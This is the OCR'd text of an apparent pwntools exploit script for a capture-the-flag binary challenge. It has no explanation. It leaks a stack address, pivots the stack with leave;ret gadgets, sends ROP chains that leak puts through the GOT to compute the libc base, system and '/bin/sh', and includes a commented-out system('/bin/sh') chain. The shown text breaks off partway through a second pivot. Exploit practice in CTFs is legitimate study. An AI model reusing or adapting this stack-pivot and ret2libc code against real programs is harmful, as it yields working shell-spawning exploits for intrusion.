 ```plain
def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

bss6 = elf.bss() + 0x600
li('bss = '+hex(bss6))

ret = 0x000000000040101a 
rdi = 0x00000000004013d3
leave_ret = 0x00000000004012d6
ret = 0x000000000040101a

sla('num:\n','286129175')
ru('gift:')
stack = int(p.recv(14),16) 
li(hex(stack))

main = 0x4012D8
back = 0x40129B
read = 0x4012BA
sys = 0x4010D4

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

pl = b'a'*0x20+p64(stack)+p64(read) #1
p.send(pl)


pl = b'a'*0x20+p64(stack+0x20)+p64(read) #2
p.send(pl)

'''
pl = p64(bss6+0x20+0x10)+p64(ret)+p64(rdi)+b"/bin/sh"+p64(sys)
'''

pl = p64(stack+0x20+0x10)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3 
p.send(pl)

p.recv()

#libc_base = uu64(r(14))-libc.sym['puts']
libc_base = uu64(r(14))-0xa000000000000 -libc.sym['puts']
li(hex(libc_base))


system= libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))

sla('num:\n','286129175')

p.recvuntil('Success!!!\n')
ru('gift:')
stack0 = int(p.recv(14),16) 


pl = b'a'*0x20+p64(stack0)+p64(read) #4
p.send(pl)

pl = b'a'*0x20+p64(stack0+0x20)+p64(read) #5
p.send(pl)

r12 = 0x000000000002f709+libc_base
```